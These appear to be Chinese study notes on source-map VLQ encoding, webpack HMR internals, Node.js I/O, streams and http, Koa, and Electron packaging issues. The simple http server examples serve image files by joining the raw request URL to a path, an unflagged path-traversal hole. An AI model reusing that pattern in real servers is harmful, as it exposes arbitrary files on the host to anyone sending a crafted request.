| sourceRoot | 源文件根目录，所有的 sources 中源文件相对的根目录 |
| sources | 源文件的文件名组成的数组，bundle 文件是就是从这些源文件转换而来的 |
| sourcesContent | 与 sources 对应，源文件的源代码字符串 |
| names | 源文件的变量名和属性名 |
| mappings | 源文件和 bundle 文件的映射关系 |
浏览器加载 source-map 文件流程
- 根据 webpack 的 devtool 的设置，最终的 source-map 文件大体上可以分为两类
- source-map 是一个单独的文件。bundle 文件的最后面会被加上一句注释，例如：
//# sourceMappingURL=bundle.js.map - source-map 和 bundle 文件合并放在一起被执行。这种情况下，也是在 bundle 的最后面加上了注释，并且注释中 sourceMappingURL 的值是 base64 字符串
- source-map 是一个单独的文件。bundle 文件的最后面会被加上一句注释，例如：
浏览器通过读取 sourceMappingURL，拿到对应的 source-map 内容，是一个对象，然后根据这个对象做解析。
-
浏览器根据 sources 数组生成源码的目录结构，然后根据 sourcesContent 生成对应的源码，这就是为什么在浏览器 Sources 面板中能看到目录结构和源码的原因。
-
根据 mappings 找到 bundle 中代码对应的源码的位置（文件 => 哪一行 => 哪一列）
mappings 原理
比如下面这个例子：
// 源码：input.js
i am handsome
// 转换后代码：output.js
i am
handsome
源码和 bundle 的映射关系需要 4 个信息：输出位置（output location），源文件（input），源码位置（input location），源码中的字符（character）
如果把上面的例子用这 4 种信息变成表格，则如下显示：
| output location | input | input location | character |
|---|---|---|---|
| L1，C0 | input.js | L1, C0 | i |
| L1，C2 | input.js | L1, C2 | a |
| L1，C3 | input.js | L1, C3 | m |
| L2，C0 | input.js | L1, C5 | h |
| L2，C1 | input.js | L1, C6 | a |
| L2，C2 | input.js | L1, C7 | n |
| L2，C3 | input.js | L1, C8 | d |
| L2，C4 | input.js | L1, C9 | s |
| L2，C5 | input.js | L1, C10 | o |
| L2，C6 | input.js | L1, C11 | m |
| L2，C7 | input.js | L1, C12 | e |
可以看到有了这个表格，那么就知道每一个字符在源码和 bundle 中的位置了
mappings 优化
如果按照上面的方式存储映射关系，信息量太大了，需要优化。优化的方式如下：
- 把源文件放入数组中，然后只记录一个索引，就不需要每次都用文件名了，因为文件名太长
- 对于源码，没有必要记录具体每个字符的对应信息，我们只需要记录变量、属性名就可以了（单词），可以使用一个列表来保存单词，位置信息只记录单词首个字符位置即可。
- 输出文件的行信息是相对重复的，所以可以使用分号来分割每行，使用逗号来分割每个单词的位置信息
- 源码的每个单词可以使用对于上一个单词的相对位置，这些位置信息（数字）可以更小些。
经过优化，可以将上面的关系表变成如下形式：
sources: [index.js]
names: [i, am, handsome]
| output location | sources index（input） | input location | names index |
|---|---|---|---|
| L1，C0 | 0 | L1, C0 | 0 |
| L1，C+2 | + 0 | L1, C+2 | + 1 |
| L2，C-2 | + 0 | L1, C+3 | + 1 |
将上面表格中的信息表示成字符串，如下：
{
mappings: "0|0|0|0,2|0|2|1;-2|0|3|1"
// 数字用 | 分隔
// 0|0|0|0 代表 -> 0(输出单词列), 0(输入文件 sources 索引)，10(输入单词列)，0（单词 names 索引）
}
这样可以看到，mappings 的数据少了很多
使用 VLQ 进一步优化
VLQ （Variable Length Quantities）是用任意个 2 进制字节组去表示一个任意数字的编码形式。
- 一个组包含 6 个二进制位
- 每组的第一位用来表示是否连续（0 不连续，1 连续）。这个意思是是否这个字节组后面是否还会有另外一个字节组，0 代表当前字节组是最后一个，1 代表当前字节组后面还有另外一个字节组。
- 第一组的最后一位用来表示符号（0 正数，1 负数），其余组最后一位都用来表示数字，因为一个数字只需要一个符号位就可以了。
- 剩余的位置都表示数字
用下面两个例子来说明：
数字：1
二进制：1
VLQ编码：000010
Base64 VLQ: C
数字：-23
绝对值：23
二进制：10111
VLQ编码：101111 000001
Base64 VLQ: vB
/**
第一步：23 的二进制码 -> 10111
第二步：将 10111 分成两部分，第一部分是后四位，第二部分是剩余的最前面一位 -> 1、0111 -> 00001、0111
第三步：按 VLQ 格式拼接 -> 101111 000001
其中，101111是 1【连续标识位】 + 0111 + 1【正负标识位】；000001是 0【连续标识位】+ 00001
第四步：对照 Base64 索引表（下表）
**/
下面是 base64 索引表

mappings: "0|0|0|0,2|0|2|1;-2|0|3|1"
0 ——> 0(二进制) ——> 000000(VLQ)
所以 0|0|0|0 变为 000000 000000 000000 000000
转换成 base64 为 AAAA
2 ——> 10(二进制) ——> 000100(VLQ)
0 ——> 0(二进制) ——> 000000(VLQ)
1 ——> 1(二进制) ——> 000010(VLQ)
所以 2|0|2|1 变为 000100 000000 000100 000010
转换成 base64 为 EAEC
-2 ——> -10(二进制)——> 000101(VLQ)
0 ——> 0(二进制) ——> 000000(VLQ)
3 ——> 11(二进制) ——> 000110(VLQ)
1 ——> 1(二进制) ——> 000010(VLQ)
所以 -2|0|3|1 变为 000101 000000 000110 000010
转换成 base64 为 FAGC
mappings: "0|0|0|0,2|0|2|1;-2|0|3|1"
变为
mappings: "AAAA,EAEC;FAGC"
HMR 原理
hot module replacement 模块热替换的原理。
概念
- Webpack-complier ：webpack 的编译器，将 JavaScript 编译成 bundle
- Bunble Server：提供文件在浏览器的访问，也就是我们平时能够正常通过 localhost 访问我们本地网站的原因
- HMR Server：将热更新的文件输出给 HMR Runtime
- HMR Runtime：开启了热更新的话，在打包阶段会被注入到浏览器中的 bundle.js，这样 bundle.js 就可以跟服务器建立连接，通常是使用 websocket ，当收到服务器的更新指令的时候，就去更新文件的变化
- bundle.js：构建输出的文件
流程
- 最初启动的时候，文件经过 Webpack-complier 编译好后传输给 Bundle Server，Bundle Server 可以让浏览器访问到我们打包出来的文件
- 当代码被修改后，文件经过 Webpack-complier 编译好后传输给 HMR Server，HMR Server 知道哪个模块发生了改变，就通知 HMR Runtime 有哪些变化。HMR Runtime 就会更新我们的代码，这样我们浏览器就会更新并且不需要刷新
源码阅读
HMR 的关键之处就在于启动 Bundle Server 的时候已经往我们的 bundle.js 中注入了 HMR Runtime，HMR Runtime 用来启动 Websocket，接受 HMR Server 发来的变更。
也就是以下几个关键点：
- Webpack 如何启动了 HMR Server
- HMR Server 如何跟 HMR Runtime 进行通信的
- HMR Runtime 接受到变更之后，如何生效的
启动 HMR Server
这个工作主要在 webpack-dev-server 中完成。
- webpack-dev-server 源代码中的 lib/Server.js setupApp 方法，Bundle Server 其实是一个 express 服务器：
setupApp() {
// Init express server
// eslint-disable-next-line new-cap
// 初始化 express 服务
// 使用 express 框架启动本地 server，让浏览器可以请求本地的静态资源。
this.app = new express();
}
- 启动服务结束之后就通过 createSocketServer 创建 websocket 服务
listen(port, hostname, fn) {
//...
return resolveFreePortOrIPC()
.then(() => {
this.initialize();
const listenOptions = this.options.ipc
? { path: this.options.ipc }
: {
host: this.options.host,
port: this.options.port,
};
return this.server.listen(listenOptions, (error) => {
if (this.options.ipc) {
// chmod 666 (rw rw rw)
const READ_WRITE = 438;
fs.chmodSync(this.options.ipc, READ_WRITE);
}
if (this.options.webSocketServer) {
try {
// 启动 websocket 服务
this.createWebSocketServer();
} catch (webSocketServerError) {
fn.call(this.server, webSocketServerError);
return;
}
}
if (this.options.bonjour) {
this.runBonjour();
}
this.logStatus();
if (fn) {
fn.call(this.server, error);
}
if (typeof this.options.onListening === "function") {
this.options.onListening(this);
}
});
})
.catch((error) => {
if (fn) {
fn.call(this.server, error);
}
});
}
createWebSocketServer() {
this.webSocketServer = new (this.getWebSocketServerImplementation())(this);
this.webSocketServer.implementation.on("connection", (client, request) => {
}
}
HMR Server 和 HMR Runtime 的通信
关键点是通信的时机，什么时候去通知客户端文件更新了。通过 webpack 创建的 compiler 实例（监听本地文件的变化、文件改变自动编译、编译输出），可以往 compiler.hooks.done 钩子（代表 webpack 编译完之后触发）注册事件， 当监听到一次 webpack 编译结束，就会调用 sendStats 方法。
查看 lib/Server.js 中的 setupHooks 方法
setupHooks() {
const addHooks = (compiler) => {
compiler.hooks.invalid.tap("webpack-dev-server", () => {
if (this.webSocketServer) {
this.sendMessage(this.webSocketServer.clients, "invalid");
}
});
// done 钩子意味着编译结束
compiler.hooks.done.tap("webpack-dev-server", (stats) => {
if (this.webSocketServer) {
// 当监听到一次 webpack 编译结束，就会调用 sendStats 方法
this.sendStats(this.webSocketServer.clients, this.getStats(stats));
}
this.stats = stats;
});
};
if (this.compiler.compilers) {
this.compiler.compilers.forEach(addHooks);
} else {
addHooks(this.compiler);
}
}
当监听到一次 webpack 编译结束，就会调用 sendStats 方法，里面会向客户端发送 hash 和 ok 事件
// Send stats to a socket or multiple sockets
sendStats(clients, stats, force) {
const shouldEmit =
!force &&
stats &&
(!stats.errors || stats.errors.length === 0) &&
(!stats.warnings || stats.warnings.length === 0) &&
stats.assets &&
stats.assets.every((asset) => !asset.emitted);
if (shouldEmit) {
this.sendMessage(clients, "still-ok");
return;
}
// hash 事件
this.sendMessage(clients, "hash", stats.hash);
if (stats.errors.length > 0 || stats.warnings.length > 0) {
if (stats.warnings.length > 0) {
this.sendMessage(clients, "warnings", stats.warnings);
}
if (stats.errors.length > 0) {
this.sendMessage(clients, "errors", stats.errors);
}
} else {
// ok 事件
this.sendMessage(clients, "ok");
}
}
- 在 client-src/index.js 中，会去更新 hash，并且在 ok 的时候去进行检查更新 reloadApp
const onSocketMessage = {
// 更新 current Hash
hash(hash) {
status.currentHash = hash;
},
ok() {
sendMessage("Ok");
if (options.overlay) {
hide();
}
if (options.initial) {
return (options.initial = false);
}
// 进行更新检查等操作
reloadApp(options, status);
},
}
- 接下来我们看看 client-src/utils/reloadApp.js 中的 reloadApp。这里又利用 node.js 的 EventEmitter，发出 webpackHotUpdate 消息。这里又将更新的事情重新还给了 webpack（为了更好的维护代码，以及职责划分的更明确。）
function reloadApp() {
if (hot && allowToHot) {
log.info("App hot update...");
// hotEmitter 是 EventEmitter 的实例
// 利用 node.js 的 EventEmitter，发出 webpackHotUpdate 消息
// websocket 仅仅用于客户端（浏览器）和服务端进行通信。而真正做事情的活还是交还给了 webpack
hotEmitter.emit("webpackHotUpdate", currentHash);
if (typeof self !== "undefined" && self.window) {
// broadcast update to window
self.postMessage(`webpackHotUpdate${currentHash}`, "*");
}
}
}
- 在 webpack 的 hot/dev-server.js 中，监听 webpackHotUpdate 事件，并执行 check 方法。并在 check 方法中调用 module.hot.check 方法进行热更新。
// moudle.hot.check 开始热更新
// 之后的源码都是 HotModuleReplacementPlugin 塞入到 bundle.js 中的
var check = function check() {
module.hot
.check(true)
.then(function (updatedModules) {
if (!updatedModules) {
log("warning", "[HMR] Cannot find update. Need to do a full reload!");
log(
"warning",
"[HMR] (Probably because of restarting the webpack-dev-server)"
);
window.location.reload();
return;
}
if (!upToDate()) {
check();
}
require("./log-apply-result")(updatedModules, updatedModules);
if (upToDate()) {
log("info", "[HMR] App is up to date.");
}
})
.catch(function (err) {
var status = module.hot.status();
if (["abort", "fail"].indexOf(status) >= 0) {
log(
"warning",
"[HMR] Cannot apply update. Need to do a full reload!"
);
log("warning", "[HMR] " + log.formatError(err));
window.location.reload();
} else {
log("warning", "[HMR] Update failed: " + log.formatError(err));
}
});
};
var hotEmitter = require("./emitter");
// 监听 webpackHotUpdate 事件
hotEmitter.on("webpackHotUpdate", function (currentHash) {
lastHash = currentHash;
if (!upToDate() && module.hot.status() === "idle") {
log("info", "[HMR] Checking for updates on the server...");
check();
}
});
至于 module.hot.check ，实际上通过 HotModuleReplacementPlugin 已经注入到我们 chunk 中了（也就是我们上面所说的 HMR Runtime）
HMR Runtime 更新 bundle.js
查看打包后的文件，开启热更新之后生成的代码会比不开启多出很多东西（为了更加直观看到，可以将其输出到本地），这些就是帮助 webpack 在浏览器端去更新 bundle.js 的 HMR Runtime 代码。
打包后的代码中新增了一个 createModuleHotObject。
module.hot = createModuleHotObject(options.id, module);
createModuleHotObject 返回了一个对象，上面挂了各种方法，需要注意 check 方法
function createModuleHotObject(moduleId, me) {
var hot = {
check: hotCheck,
}
return hot;
}
hotCheck 中调用了 __webpack_require__.hmrM
function hotCheck(applyOnUpdate) {
if (currentStatus !== "idle") {
throw new Error("check() is only allowed in idle status");
}
return setStatus("check")
.then(__webpack_require__.hmrM)
.then(function (update) {
if (!update) {
return setStatus(applyInvalidatedModules() ? "ready" : "idle").then(
function () {
return null;
}
);
}
return setStatus("prepare").then(function () {
var updatedModules = [];
blockingPromises = [];
currentUpdateApplyHandlers = [];
return Promise.all(
Object.keys(__webpack_require__.hmrC).reduce(function (
promises,
key
) {
__webpack_require__.hmrC[key](
update.c,
update.r,
update.m,
promises,
currentUpdateApplyHandlers,
updatedModules
);
return promises;
},
[])
).then(function () {
return waitForBlockingPromises(function () {
if (applyOnUpdate) {
return internalApply(applyOnUpdate);
} else {
return setStatus("ready").then(function () {
return updatedModules;
});
}
});
});
});
});
}
来看 __webpack_require__.hmrM, 其中 __webpack_require__.p 指的是本地服务的域名，类似 http://0.0.0.0:9528 ， 另外 __webpack_require__.hmrF 去获取 .hot-update.json 文件的地址
__webpack_require__.hmrM = () => {
if (typeof fetch === "undefined") throw new Error("No browser support: need fetch API");
return fetch(__webpack_require__.p + __webpack_require__.hmrF()).then((response) => {
if(response.status === 404) return; // no update available
if(!response.ok) throw new Error("Failed to fetch update manifest " + response.statusText);
return response.json();
});
};
(() => {
__webpack_require__.hmrF = () => ("main." + __webpack_require__.h() + ".hot-update.json");
})();
加载要更新的模块
下面来看如何加载我们要更新的模块的，可以看到打包出来的代码中有 loadUpdateChunk
function loadUpdateChunk(chunkId) {
return new Promise((resolve, reject) => {
waitingUpdateResolves[chunkId] = resolve;
// start update chunk loading
var url = __webpack_require__.p + __webpack_require__.hu(chunkId);
// create error before stack unwound to get useful stacktrace later
var error = new Error();
var loadingEnded = (event) => {
if(waitingUpdateResolves[chunkId]) {
waitingUpdateResolves[chunkId] = undefined
var errorType = event && (event.type === 'load' ? 'missing' : event.type);
var realSrc = event && event.target && event.target.src;
error.message = 'Loading hot update chunk ' + chunkId + ' failed.\n(' + errorType + ': ' + realSrc + ')';
error.name = 'ChunkLoadError';
error.type = errorType;
error.request = realSrc;
reject(error);
}
};
__webpack_require__.l(url, loadingEnded);
});
}
再看 __webpack_require__.l，主要通过类似 JSONP 的方式进行，因为JSONP获取的代码可以直接执行。
__webpack_require__.l = (url, done, key, chunkId) => {
if(inProgress[url]) { inProgress[url].push(done); return; }
var script, needAttach;
if(key !== undefined) {
var scripts = document.getElementsByTagName("script");
for(var i = 0; i < scripts.length; i++) {
var s = scripts[i];
if(s.getAttribute("src") == url || s.getAttribute("data-webpack") == dataWebpackPrefix + key) { script = s; break; }
}
}
if(!script) {
needAttach = true;
script = document.createElement('script');
script.charset = 'utf-8';
script.timeout = 120;
if (__webpack_require__.nc) {
script.setAttribute("nonce", __webpack_require__.nc);
}
script.setAttribute("data-webpack", dataWebpackPrefix + key);
script.src = url;
}
inProgress[url] = [done];
var onScriptComplete = (prev, event) => {
// avoid mem leaks in IE.
script.onerror = script.onload = null;
clearTimeout(timeout);
var doneFns = inProgress[url];
delete inProgress[url];
script.parentNode && script.parentNode.removeChild(script);
doneFns && doneFns.forEach((fn) => (fn(event)));
if(prev) return prev(event);
}
;
var timeout = setTimeout(onScriptComplete.bind(null, undefined, { type: 'timeout', target: script }), 120000);
script.onerror = onScriptComplete.bind(null, script.onerror);
script.onload = onScriptComplete.bind(null, script.onload);
needAttach && document.head.appendChild(script);
};
webpackHotUpdatetest_hmr 函数用于更新模块
// webpackHotUpdate + 项目名
self["webpackHotUpdatetest_hmr"] = (chunkId, moreModules, runtime) => {
for(var moduleId in moreModules) {
if(__webpack_require__.o(moreModules, moduleId)) {
currentUpdate[moduleId] = moreModules[moduleId];
if(currentUpdatedModulesList) currentUpdatedModulesList.push(moduleId);
}
}
if(runtime) currentUpdateRuntime.push(runtime);
if(waitingUpdateResolves[chunkId]) {
waitingUpdateResolves[chunkId]();
waitingUpdateResolves[chunkId] = undefined;
}
};
总结
- HMR Runtime 通过 HotModuleReplacementPlugin 已经注入到我们 chunk 中了
- 除了开启一个 Bundle Server，还开启了 HMR Server，主要用来和 HMR Runtime 中通信
- 在编译结束的时候，通过 compiler.hooks.done，监听并通知客户端
- 客户端接收到之后，就会调用 module.hot.check 等，发起 http 请求去服务器端获取新的模块资源解析并局部刷新页面
nodejs 基础
异步非阻塞I/O
-
I/O 主要指与系统磁盘和网络之间的交互。
-
阻塞是指在 Node.js 程序中，其它 JavaScript 语句的执行，必须等待一个非 JavaScript 操作完成。这是因为当阻塞发生时，事件循环无法继续运行 JavaScript。在 Node.js 中，JavaScript 由于执行 CPU 密集型操作，而不是等待一个非 JavaScript 操作（例如 I/O）而表现不佳，通常不被称为阻塞。在 Node.js 标准库中使用 libuv 的同步方法是最常用的阻塞操作。原生模块中也有阻塞方法。在 Node.js 标准库中的所有 I/O 方法都提供异步版本，非阻塞，并且接受回调函数。某些方法也有对应的阻塞版本，名字以 Sync 结尾。 -
阻塞方法同步执行，非阻塞方法异步执行。
通过读取文件的代码来比较，这是一个同步文件读取：
const fs = require('fs');
const data = fs.readFileSync('/file.md'); // blocks here until file is read
这是一个等同的异步示例：
const fs = require('fs');
fs.readFile('/file.md', (err, data) => {
if (err) throw err;
});
第一个示例看上去比第二个简单些，但是有一个缺陷：第二行语句会阻塞其它 JavaScript 语句的执行直到整个文件全部读取完毕。注意在同步版本中，如果错误被抛出，它需要被捕获否则整个程序都会崩溃。在异步版本中，由作者来决定错误是否如上所示抛出。
让我们稍微扩展一下我们的例子：
const fs = require('fs');
const data = fs.readFileSync('/file.md'); // blocks here until file is read
console.log(data);
moreWork(); // will run after console.log
这是一个类似但不等同的异步示例：
const fs = require('fs');
fs.readFile('/file.md', (err, data) => {
if (err) throw err;
console.log(data);
});
moreWork(); // will run before console.log
在上述第一个例子中， console.log 将在 moreWork() 之前被调用。在第二个例子中， fs.readFile() 是非阻塞的，所以 JavaScript 执行可以继续， moreWork() 将被首先调用。在不等待文件读取完成的情况下运行 moreWork() 的能力是一个可以提高吞吐量的关键设计选择。
并发和吞吐量
在 Node.js 中 JavaScript 的执行是单线程的，因此并发性是指事件循环在完成其他工作后执行 JavaScript 回调函数的能力。任何预期以并行方式运行的代码必须让事件循环能够在非 JavaScript 操作（比如 I/O ）执行的同时继续运行。
例如，让我们思考这样一种情况：每个对 Web 服务器的请求需要 50 毫秒完成，而那 50 毫秒中的 45 毫秒是可以异步执行的数据库 I/O。选择 非阻塞 异步操作可以释放每个请求的 45 毫秒来处理其它请求。仅仅是选择使用非阻塞方法而不是阻塞方法，就能造成并发的显著差异。
事件循环不同于许多其他语言的模型，其它语言创建额外线程来处理并发工作。
nodejs api 的阻塞版本和非阻塞版本
nodejs 中的 I/O 操作的 api 会提供阻塞版本和非阻塞版本。以 fs 模块举例。
const fs = require('fs');
// 同步调用
const data = fs.readFileSync('./conf.js');
//代码会阻塞在这里
console.log(data);
// 异步调用
fs.readFile('./conf.js', (err, data) => {
if (err) throw err;
console.log(data);
});
// nodejs v10 版本新增的 fs promise api
const fsp = require("fs").promises;
fsp.readFile("./confs.js")
.then(data => console.log(data))
.catch(err => console.log(err));
nodejs 中还有一个 promisify 方法，在版本 v8 中新增，用于将老式的 error first callback 写法（例如 fs.readFile 的异步回调写法）改造成返回 promise 形式的写法。
// promisify
const { promisify } = require('util');
const readFile = promisify(fs.readFile);
readFile('./conf.js')
.then(data=>console.log(data))
下面是 promisify 的实现：
function promisify(fn) {
return function(...arg) {
return new Promise((resolve, reject) => {
fn.apply(null, [...arg, function (err, data) {
if (err) {
return reject(err);
}
resolve(data);
}]);
});
}
}
Buffer 缓冲区
当使用 fs 模块读取一个文件的数据后，将这些数据打印出来长下面这样子：
const fs = require('fs');
const data = fs.readFileSync('./aaa.txt');
console.log(data, 'data');
// <Buffer 31 2e 0d 0a e5 91 a8 e4 bd 9c e4 ba ba e6 95 a3 e6 96 87 0d 0a 0d 0a e5 87 ba e7 89 88 e7 a4 be 3a 20 e4 ba ba e6 b0 91 e6 96 87 e5 ad a6 e5 87 ba e7 ... 2753 more bytes>
这种类型被称为 Buffer，译为缓冲区，它用于表示固定长度的字节序列。也就是说它在 nodejs 中用于处理二进制数据。
下面是 Buffer 的一些常用方法。
// Buffer.from 创建一个 buffer 对象。参数可以是多种类型。
const buf1 = Buffer.from('this is a tést');
console.log(buf1.toString());
// Prints: this is a tést
// Buffer.alloc 分配一段指定大小的内存空间用于存储 buffer 数据
const buf1 = Buffer.alloc(10);
const buf2 = Buffer.alloc(14);
const buf3 = Buffer.alloc(18);
const totalLength = buf1.length + buf2.length + buf3.length;
console.log(totalLength);
// Prints: 42
// Buffer.concat 合并 Buffer 对象
const bufA = Buffer.concat([buf1, buf2, buf3], totalLength);
console.log(bufA);
// Prints: <Buffer 00 00 00 00 ...>
console.log(bufA.length);
// Prints: 42
// buffer.write 写入 Buffer
const buffer = Buffer.alloc(10);
buffer.write('abcd');
console.log(buffer);
// <Buffer 61 62 63 64 00 00 00 00 00 00>
http
使用 http 模块可以创建一个服务器对象，监听并处理所有向这个服务发送的所有请求
const http = require('http')
const fs = require('fs')
// http.createServer 会返回一个 server 对象，传入参数是一个 requestListener 回调函数，当 server 收到任何请求，requestListener 都会被触发
// requestListener 回调函数有两个参数，request 和 response，从 request 对象获取请求相关的信息，用 response 对象设置响应信息
const server = http.createServer((request, response) => {
const { url, method, headers } = request
// 请求的 url 是 / 并且是 GET 请求，就去读取硬盘上的 html 文件返回
if (url === '/' && method === 'GET') {
fs.readFile('index.html', (err, data) => {
response.statusCode = 200
response.setHeader('Content-Type','text/html')
response.end(data)
})
// 如果请求 url 为 /users，GET 请求，返回 json 数据
} else if (url === '/users' && method === 'GET') {
response.writeHead(200, {
'Content-Type': 'application/json'
})
response.end(JSON.stringify({
name : 'laowang'
}))
}
})
// 启动 http 服务器并监听 3000 端口
server.listen(3000)
这就是一个最简单的 nodejs 服务器的实现。
上面这个例子可以看到在回调里判断不同的请求，然后做响应的处理就可以实现一个简单的服务器的效果了。
stream 流
stream 译为流，接下来继续通过刚才 server 的例子来解释什么是 stream ，以及为什么要使用 stream。
当我们要新增加一个处理返回图片的请求的时候就像下面这样再添加一个判断：
const http = require('http')
const fs = require('fs')
const server = http.createServer((request, response) => {
const { url, method, headers } = request
if (url === '/' && method === 'GET') {
fs.readFile('index.html', (err, data) => {
response.statusCode = 200
response.setHeader('Content-Type','text/html')
response.end(data)
})
} else if (url === '/users' && method === 'GET') {
response.writeHead(200, {
'Content-Type': 'application/json'
})
response.end(JSON.stringify({
name : 'laowang'
}))
// 处理图片的请求
} else if (method === 'GET' && headers.accept.indexOf('image/*') !== -1) {
fs.readFile('./' + url, (err, data) => {
response.statusCode = 200
response.end(data)
})
}
})
server.listen(3000)
当服务器向浏览器响应一张图片的时候，这里直接使用 fs 模块读取服务器上的图片文件到内存中，然后再通过响应发送数据，这样很容易理解，但是这样的实现方式有一个缺点，占用资源过多，如果同时有多个请求要处理，并且文件非常大，就会造成服务器内存被占满。
如果使用 stream 就可以解决这个问题。
const http = require('http')
const fs = require('fs')
const server = http.createServer((request, response) => {
const { url, method, headers } = request
if (url === '/' && method === 'GET') {
fs.readFile('index.html', (err, data) => {
response.statusCode = 200
response.setHeader('Content-Type','text/html')
response.end(data)
})
} else if (url === '/users' && method === 'GET') {
response.writeHead(200, {
'Content-Type': 'application/json'
})
response.end(JSON.stringify({
name : 'laowang'
}))
// 使用 stream 处理图片的请求
} else if (method === 'GET' && headers.accept.indexOf('image/*') !== -1) {
fs.createReadStream('./' + url).pipe(response)
}
})
server.listen(3000)
第二种方法通过创建一个可读流，读取到图片文件的二进制数据然后 pipe 到 response 对象里完成响应。
使用 stream 就相当于建立了一个管道，将服务器上的文件读取为二进制数据然后通过管道直接传输到响应里，不会完整地读取整个文件数据到内存中，这样就避免了会大量占用内存的问题。
这里是一个形象地解释：如果把文件比作装水的桶，那么水就是文件里的内容，我们用一根管子连接两个桶使得水从一个桶流入另一个桶，这样就实现了大文件的复制过程
koa2源码解析
http 包的不足
首先思考一个问题，既然 nodejs 已经提供了 http 包，我们可以通过 http.createServer 来创建一个服务器，那么为什么我们还需要类似 koa 和 express 这样的框架？
const http = require('http')
const fs = require('fs')
const server = http.createServer((request, response) => {
const { url, method, headers } = request
if (url === '/' && method === 'GET') {
fs.readFile('index.html', (err, data) => {
response.statusCode = 200
response.setHeader('Content-Type','text/html')
response.end(data)
})
} else if (url === '/users' && method === 'GET') {
response.writeHead(200, {
'Content-Type': 'application/json'
})
response.end(JSON.stringify({
name : 'laowang'
}))
// 使用 stream 处理图片的请求
} else if (method === 'GET' && headers.accept.indexOf('image/*') !== -1) {
fs.createReadStream('./' + url).pipe(response)
}
})
server.listen(3000)
回顾上面的代码，既然使用 http 包就已经能够开发 web 服务了，为什么还需要封装 koa 这样的框架？
起始 http 包的不足之处有下面几点：
-
API 不够优雅
// 比如说使用 response 对象对请求做出响应 // 写法一 http 包 response.statusCode = 200 response.setHeader('Content-Type','text/html') response.end(data) // 写法二 response.body = { name: '123' } // http 包的写法使用 end 方法，这个方法的名字就令人费解，它起这个名字的原因是因为 response 对象是一个流，只是 http 协议的一个浅层封装，所以语义上并不明确 // 而第二种写法就简单明了，符合人的直觉，直接可以看出其含义是响应数据的 body 是一个 json 对象，并且不需要额外手动设置 header，框架会自行判断数据类型然后添加 -
如果路由只有 1 ~ 5 个，那么可以使用 if else 来实现，但是当路由数量达到 100 个或者上千个，那么就不能使用 if else 了，程序规模变得庞大这时候就必须引入设计模式中的
策略模式。 -
切面描述需要。
- 比如所有操作前后都需要记录日志
- 比如所有操作之前都需要鉴权
- 这里的解决方案类似前端路由之中的路由守卫的效果
koa
koa 是 Express 的下⼀代基于 Node.js 的 web 框架，koa2 完全使⽤ Promise 并配合 async 来实现异步。
const Koa = require('koa');
const app = new Koa();
app.use(async ctx => {
ctx.body = 'Hello World';
});
app.listen(3000);
electron 开发踩坑
electron 应用的一些重要路径
- 默认安装目录
C:\Users\用户名\AppData\Local\Programs\应用名 - electron-builder 打包时需要用到的 electron 包会下载到
C:\Users\用户名\AppData\Local\electron\Cache - electron-builder 打包时需要用到的 nsis 和 winCodeSign 在
C:\Users\用户名\AppData\Local\electron-builder\Cache - electron-updater 更新时下载的全量安装包会下载到
C:\Users\用户名\AppData\Local\应用名-updater - 默认日志或者缓存目录 （使用 app.getPath('userData')）
C:\Users\用户名\AppData\Roaming\应用名
关于网速慢装包失败
-
有时候网速太慢，下载 electron 会失败，这时候需要切换源。切换最快的源后再装包，成功率就高一些
npm i nrm -g nrm test npm ---------- 1551 ms yarn --------- timeout (Fetch timeout over 5000 ms) tencent ------ 534 ms cnpm --------- 3778 ms taobao ------- 2210 ms npmMirror ---- 4206 ms (Fetch error, if this is your private registry, please ignore) * huawei ------- 480 ms // 可以看到 huawei 的源速度最快 nrm use huawei
electron-builder 打包下载相关
- electron-builder 打包的时候会根据目标平台和软件位宽去下载对应平台和版本的 electron 包，下载后 windows 系统下放在
C:/Users/用户名/AppData/Local/electron/Cache目录下 - 如果一直下载失败，可以去 registry.npmmirror.electron手动下载对应版本然后放到
C:/Users/用户名/AppData/Local/electron/Cache目录下 - 还需要 winCodeSign 签名工具, 在 electron-builder-binaries/winCodeSign-2.4.0 下载后放在
C:\Users\用户名\AppData\Local\electron-builder\Cache\winCodeSign\winCodeSign-2.6.0 - 还需要 nsis，在 electron-builder-binaries/nsis-3.0.3.2 下载，然后放在
C:\Users\用户名\AppData\Local\electron-builder\Cache\nsis\nsis-3.0.4.1 - 还需要 nsis-resources, 在 electron-builder-binaries/nsis-resources-3.4.1 下载，放在
C:\Users\用户名\AppData\Local\electron-builder\Cache\nsis\nsis-resources-3.4.1 - winCodeSign 和 nsis 和 nsis-resources 都可以在 electron-builder-binaries/releases 下载到
原生模块相关
-
如果要使用原生模块的 npm 包，需提前安装环境，根据 node-gyp 官方描述，在 windows 下需要安装 python 环境和 C++ 环境，安装当前版本的 python和visual studio 社区版，安装 visual studio 时注意勾选
Desktop development with C++ workload -
有些 npm 包其实主功能是原生编译的模块，例如
sqlite3或者better-sqlite3是使用 c++ 实现的原生模块，然后使用node-gyp编译成目标平台（指定 electron 版本的 nodejs 环境和软件位宽）的.node文件。碰到这类原生模块，如果默认下载的包和当前使用的 electron 版本不兼容就会碰到如下错误：Error: The module '/path/to/native/module.node' was compiled against a different Node.js version using NODE_MODULE_VERSION $XYZ. This version of Node.js requires NODE_MODULE_VERSION $ABC. Please try re-compiling or re-installing the module (for instance, using `npm rebuild` or `npm install`). -
这时候就需要 @electron/rebuild 来重新编译这些原生模块兼容当前 electron 对应的 nodejs 环境。在
package.json中新建命令"rebuild": "electron-rebuild -f -w better-sqlite3"然后运行npm run rebuild等待编译完成即可
闪退问题
- 在某些 windows 系统的老旧电脑上碰到 app 启动后，窗口闪了一下就崩溃退出，窗口还没有完全出现，只是出现了透明的框体。查看主进程日志看不出来问题，这时候可以打开 windows 的 cmd，然后输入应用的 exe 文件的绝对路径，然后回车执行，这时候就可以看到崩溃前输出了什么日志

-
上面的图可以看到 cmd 启动后看到了报错的信息，通过内容可以大概判断是 chromium 的 gpu 进程崩溃导致的，网络上搜查信息后发现可以 cmd 启动时加一些启动参数来尝试修复，例如
